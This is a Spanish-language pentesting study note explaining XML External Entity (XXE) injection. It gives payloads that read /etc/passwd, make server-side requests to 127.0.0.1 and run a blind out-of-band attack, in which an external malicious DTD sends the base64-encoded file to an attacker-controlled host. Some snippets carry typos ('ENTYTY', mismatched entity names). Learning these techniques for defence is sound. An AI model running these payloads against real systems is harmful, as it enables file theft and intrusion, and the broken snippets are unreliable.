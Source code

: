 ```yaml
---
created: 2024-12-21

---
```

-------
- tags: #xml #web #lfi #SSRF #burpsuite 
------------
# ¿Qué es?
> Hace referencia a XML (eXtensible Markup Language) eXternal Entity Injection y nos permite llegar a ver archivos del equipo a través de etiquetas XML que podemos modificar
W
## Ejemplo de XML normal
```xml
<? xml version="1.0" encoding="UTF-8"?>
<root>
	<name>
		David
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>
```

## Ejemplo de Explotación XML

Podemos llegar a representar la misma información que en el ejemplo anterior si hacemos lo siguiente:

```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myName "David">]>
<root>
	<name>
		&myName;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```

De este modo, estamos declarando la ENTIDAD "myName" cuyo valor es "David" y llamando más tarde al valor de la entidad con "&myName;"


## XXE ---> LFI

Podemos referenciar a archivos de la siguiente manera:

```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
<root>
	<name>
		&myFile;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```


De este modo, conseguimos crear la entidad myFile cuyo valor será en contenido del fichero "/etc/passwd" y representarlo a través de "&myFile;"

## XXE ---> SSRF

```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/">]>
<root>
	<name>
		&myName;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```

## XXE ---> RCE

Hay formas de derivar XXE a RCE a través de wrappers de php, [haz clic para saber más](https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7)



## XXE OOB (Out Of Bound) (Blind)

> Si al explotar la inyección XXE no vemos output, o no podemos mostrar entidades, podremos aun así llegar a explotarlo a través de un XXE OOB.

Declaramos la siguiente estructura XML:
```xml
<? xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://miip/malicious.dtd"> %xxe;]>
<root>
	<name>
		&myFile;
	</name>
	<surname>
		Alonso
	</surname>
	<birth>
		05/05/2004
	</birth>
</root>```

Teniendo un servidor http montado con el fichero malicious.dtd que contenga lo siguiente:

malicious.dtd:
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTYTY &#x25; exfil SYSTEM 'http://miip/?file=%file;'>">
%eval;
%exfil;
```
**(Aclaración: &#x25; es como se representa el % cuando la entidad se encuentra dentro de otra entidad, el % es 25 en hexadecimal)**


Deberíamos de recibir una solicitud que contendrá el archivo /etc/passwd en base64


